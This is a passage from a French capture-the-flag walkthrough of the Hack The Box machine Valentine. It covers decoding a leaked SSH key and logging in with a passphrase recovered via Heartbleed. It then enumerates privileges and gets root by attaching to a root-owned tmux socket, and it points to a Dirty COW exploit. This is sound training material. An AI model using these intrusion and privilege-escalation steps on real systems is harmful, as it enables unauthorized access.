 En revanche, ces notes confirment l’existence d’un mécanisme d’encodage/décodage mal maîtrisé, ce qui renforce la cohérence des données récupérées précédemment via Heartbleed.

#### Décodage de hype_key

Le fichier **hype_key**, quant à lui, est nettement plus intéressant.
 Son contenu est encodé en **hexadécimal**.

Tu procèdes au décodage hex → brut à l’aide de **[CyberChef](https://gchq.github.io/CyberChef/)**, ce qui permet d’obtenir une clé privée SSH exploitable, que tu sauvegardes sous le nom **hype_key_decoded**.


#### Préparation de la clé SSH

Après avoir copié le contenu décodé dans un fichier local (`hype_key_decoded`), tu le places dans un répertoire de travail adapté :

```bash
mkdir -p /home/kali/tmp
cp hype_key_decoded /home/kali/tmp/
```

Tu ajustes ensuite les permissions du fichier, condition indispensable pour que SSH accepte la clé :

```bash
chmod 600 /home/kali/tmp/hype_key_decoded
```
#### Connexion SSH avec la clé récupérée

Le nom du fichier **hype_key** suggère logiquement qu’il s’agit de la clé SSH de l’utilisateur **hype**.
 Tu tentes donc une connexion SSH en utilisant cette clé privée.

```bash
ssh -i /home/kali/tmp/hype_key_decoded hype@valentine.htb
```

La clé est protégée par une passphrase. Tu renseignes alors le mot de passe précédemment récupéré via Heartbleed :

```bash
heartbleedbelievethehype
```

La connexion aboutit avec succès et tu obtiens un shell interactif en tant que l’utilisateur **hype** :

```bash
ssh -i /home/kali/tmp/hype_key_decoded hype@valentine.htb

** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key '/home/kali/tmp/hype_key_decoded': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

hype@Valentine:~$ 

```

### user.txt

Une fois connecté en SSH en tant que l’utilisateur **hype**, tu commences par examiner le contenu de son répertoire personnel afin de repérer d’éventuels fichiers intéressants.

```bash
hype@Valentine:~$ ls -l
total 36
drwxr-xr-x 2 hype hype 4096 Jul  9 01:46 Desktop
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Documents
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Downloads
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Music
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Pictures
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Public
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Templates
-rw-rw-r-- 1 hype hype   33 Nov 24 06:46 user.txt
drwxr-xr-x 2 hype hype 4096 Dec 11  2017 Videos

```

Le fichier **user.txt** est directement accessible dans le home de l’utilisateur.
 Il ne reste plus qu’à l’afficher pour valider l’accès utilisateur.

```bash
hype@Valentine:~$ cat user.txt
ef7xxxxxxxxxxxxxxxxxxxxxxxxxxx24e0

```

Tu récupères ainsi le **flag utilisateur**, confirmant la réussite de la phase d’exploitation et l’obtention d’un accès légitime sur la machine.


## Escalade de privilèges

Une fois connecté en SSH en tant que `hype` et conformément à la recette , l’escalade de privilèges débute par une série de vérifications systématiques :
 l’analyse des droits sudo (`sudo -l`), l’observation des processus avec `pspy64`, la recherche de *Linux capabilities* (`getcap`), l’énumération des binaires SUID via `suid3num.py`, puis une première analyse globale du système à l’aide de `les.sh`.

Dans le contexte de la machine Valentine, ces différentes étapes ne révèlent **aucune configuration directement exploitable**, à l’exception de **Dirty COW (CVE-2016-5195)**, identifiée par `les.sh` comme hautement probable sur ce système ancien.

Afin de ne rien négliger, l’analyse se poursuit avec **`linpeas.sh`**, outil plus exhaustif permettant de centraliser les informations collectées et de confirmer les vecteurs d’escalade de privilèges disponibles.

Les différents outils d’énumération (pspy64, suid3num.py, les.sh, linpeas.sh, etc.) sont téléchargés au préalable sur la machine Kali, regroupés dans un répertoire de travail dédié, puis transférés sur la cible avant exécution, selon la procédure décrite dans la recette . Cette organisation garantit un workflow clair, reproductible et cohérent tout au long du challenge.

------

### Analyse avec linpeas.sh

Dans **LinPEAS**, les vulnérabilités potentielles sont classées et surlignées par couleur.



Dans les résultats de `linpeas.sh`, la ligne suivante apparaît surlignée en rouge et jaune :


**tmux** est un multiplexeur de terminaux qui permet d'ouvrir plusieurs sessions persistantes dans un même terminal et de s'y reconnecter même après une déconnexion.

Interprétation technique:

- Le processus appartient à **root** → donc **session tmux contrôlée par root**.
- Il tourne depuis `Nov24` → donc session persistante.
- L'option `-S` indique que tmux utilise un **socket personnalisé** au lieu du socket classique ( `/tmp/tmux-<uid>/` ).

Ici, le socket est :

```bash
/.devs/dev_sess
```

------

### Ce que ça implique

- Si tu peux écrire sur ce socket, tu peux :
  - t’attacher à une session root
  - prendre le contrôle du shell
  - obtenir un shell root complet immédiatement


### Vérifications 

Dans le shell hype@valentine, teste :

```bash
ls -l /.devs/dev_sess
srw-rw---- 1 root hype 0 Nov 26 00:30 /.devs/dev_sess
```

ce qui montre que tu disposes d’un accès en écriture au socket.

Puis tu t’attaches avec :

```bash
tmux -S /.devs/dev_sess attach
```

Le résultat est un prompt root :

```bash
root@valentine:~#
```

**L’accès root est obtenu.**

------

### root.txt

```bash
root@Valentine:/# cat /root/root.txt
32ecxxxxxxxxxxxxxxxxxxxxxxxxxb08
```

## Bonus — Dirty COW (CVE-2016-5195)

L’énumération locale a mis en évidence la vulnérabilité kernel **Dirty COW (CVE-2016-5195)**, confirmée comme exploitable sur cette version ancienne d’Ubuntu (12.04, kernel 3.2.0).  
Cette vulnérabilité permet, via une condition de concurrence (*race condition*), d’élever ses privilèges jusqu’à root sans disposer de droits sudo.

Dans le cadre de ce challenge, cette piste n’a toutefois pas été exploitée.  
L’analyse approfondie avec **linpeas.sh** a permis d’identifier une configuration bien plus directe : une session **tmux appartenant à root**, accessible via un socket dont l’utilisateur `hype` dispose des droits en écriture.

**Ce choix illustre une approche volontairement pragmatique : lorsqu’une escalade de privilèges non-kernel, stable et immédiate est disponible, elle doit être privilégiée par rapport à une exploitation kernel plus intrusive.**

À titre d’exercice complémentaire, libre à toi d’explorer également l’exploitation de **Dirty COW (CVE-2016-5195)** sur cette machine.  Un proof-of-concept fiable et largement documenté est notamment disponible sur [Exploit-DB (ID 40616)](https://www.exploit-db.com/exploits/40616).

------

## Conclusion

Valentine est une machine HTB Easy idéale pour réviser une chaîne d’attaque courte et logique : détection d’Heartbleed (CVE-2014-0160) sur OpenSSL, fuite mémoire, extraction d’une donnée réutilisable, puis accès SSH en tant qu’utilisateur. L’escalade de privilèges illustre ensuite un classique de post-exploitation : une session tmux root exposée via un socket accessible, qui permet d’obtenir un shell root immédiatement.

Ce challenge rappelle qu’une énumération rigoureuse et la lecture attentive des artefacts récupérés suffisent souvent à faire toute la différence.

---

## Pièces jointes

- [heartbleed.py](files/heartbleed.py)  


